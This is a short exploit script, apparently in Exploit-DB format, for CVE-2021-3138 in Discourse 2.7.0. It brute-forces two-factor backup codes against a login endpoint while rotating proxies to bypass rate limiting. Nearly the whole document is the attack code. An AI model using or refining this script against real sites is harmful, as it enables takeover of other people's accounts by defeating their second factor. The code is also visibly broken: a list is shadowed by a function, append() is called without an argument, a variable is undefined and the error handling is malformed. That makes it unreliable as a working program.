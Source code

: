 EXP
---

    # Exploit Title: Discourse 2.7.0 - Rate Limit Bypass leads to 2FA Bypass
    # Date: 14/01/2021
    # Exploit Author: Mesh3l_911
    # Vendor Homepage: https://www.discourse.org/
    # Software Link:https://github.com/discourse/discourse
    # Version: Discourse 2.7.0
    # CVE: CVE-2021-3138

    import requests

    username = input("\n input ur username : ")
    password = input("\n input ur password : ")
    session=requests.session()

    proxies = []
    def proxies():
        proxies_path = input("\n input ur proxies path : ")

        with open(proxies_path, 'r') as prox:
            for _ in prox.read().splitlines():
                proxies.append()

    backup_codes = []
    def backup_list():
        Backup_codes = input("\n input ur Backup_codes list path : ")

        with open(Backup_codes, 'r') as codes:
            for _ in codes.read().splitlines():
                backup_codes.append()

    def exploit():
        with open('Backup_codes.txt', 'w') as results:
            try:
                for __ in proxies:
                    for _ in codes.read().splitlines():
                        header =\
                        {
                            "X-CSRF-Token": "ur X-CSRF-Token",
                            "Cookie": "ur Cookie",
                            "X-Requested-With": "XMLHttpRequest"
                        }
                        body = {"login": username, "password": password, "second_factor_token": _, "second_factor_method": "2"}
                        request = session.post("ur target_url", headers=header, data=body, proxies={'http': __, 'https':__})
                        source = request.text
                        backup_codes.remove(_)

                        if request.status_code == 200:
                            if '"id"' in source:
                                results.write("The Backup_Coude is > {} ".format(_))
                                return True
                            else:
                                pass
                        else:
                            proxies.remove(__)
                            break


            except requests.exceptions.SSLError and requests.exceptions.ConnectionError:
                print(" Connection Failed :( ")

            results.close()


    def main():
        if exploit():
            print("\n Found :) \n")
        else:
            print("\n Please re-check ur inputs :( \n")
    if __name__ == '__main__':
        main()
